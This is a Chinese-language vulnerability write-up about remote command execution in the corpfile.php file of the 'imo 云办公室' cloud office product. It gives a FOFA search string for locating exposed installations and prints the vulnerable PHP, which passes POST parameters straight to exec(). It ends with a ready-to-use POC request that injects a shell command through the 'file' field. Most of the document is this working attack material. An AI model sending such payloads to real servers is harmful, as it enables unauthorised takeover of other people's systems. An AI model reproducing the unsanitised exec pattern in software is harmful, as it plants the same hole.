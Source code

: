 # imo 云办公室 corpfile.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 corpfile.php 文件中参数过滤不足，导致可以随意进行命令拼接，获取服务器权限

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## FOFA

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0.png)

漏洞文件 corpfile.php

```javascript
<?php
define('DELETE_FAILED', '数据不存在，删除失败!');
define('DELETE_SUCCESS', '数据存在，删除成功!');
switch($_POST['type'])
{
  case 'corpLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'userLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('uid' => $_POST['uid'], 'user_account' => $_POST['user_account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'corpTemp':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'chatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'multiChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'groupChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'backChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;
}
```

验证POC

```javascript
POST /corpfile.php

type=corpLogo&command=id&file=;pwd>1.txt
```

![img](../../../.vuepress/public/img/1645881191090-fcf34136-bc53-4b37-8de8-e4ca535b750a.png)